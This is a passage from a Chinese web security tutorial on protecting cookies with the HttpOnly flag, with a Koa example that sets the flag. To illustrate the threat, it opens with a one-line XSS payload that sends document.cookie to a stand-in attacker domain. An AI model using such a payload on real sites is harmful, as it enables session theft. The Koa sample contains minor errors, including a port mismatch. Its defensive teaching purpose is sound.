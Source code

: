 ### HTTPOnly Cookie

窃取网页 Cookie 的示例：

```js
new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie;
```

使用 HttpOnly Cookie 将重要的 Cookie 标记为 `http-only`，这样的话当浏览器向 Web 服务器发起请求的时就会带上 Cookie 字段，但是在 JavaScript 脚本中却不能访问这个 Cookie，这样就避免了 XSS 攻击利用 JavaScript 的 `document.cookie` 获取 Cookie。

在 Koa 中设置 Cookie `httpOnly` 属性：

```js
const Koa = require('koa');
const app = new Koa();

app.use(async (ctx) => {
  if (ctx.url === '/index') {
    ctx.cookie.set('cid', 'hello world', {
      // 写 Cookie 所在域名
      domain: 'localhost',
      // 写 Cookie 所在的路径
      path: '/index',
      // Cookie 有效时长
      maxAge: 10 * 60 * 1000,
      // Cookie 失效时间
      expires: new Date('2017-02-15'),
      // 是否只用于 HTTP 请求中获取
      httpOnly: true,
      // 是否允许重写
      overwrite: false,
    });

    ctx.body = 'Cookie is ok.';
  } else {
    ctx.body = 'Hello world!';
  }
});

app.listen(300, () => {
  console.log('[demo] Cookie is starting at port 3000');
});
```

在 Chrome 浏览器 Application 面板查看 Cookie 缓存可以直到哪些 Cookie 字段设置了 HttpOnly：

```jsx | inline
import React from 'react';
import img from '../../assets/web-security/xss-cookies-httponly.jpg';

export default () => <img alt="Cookies HttpOnly" src={img} width={720} />;
```

## 参考资料
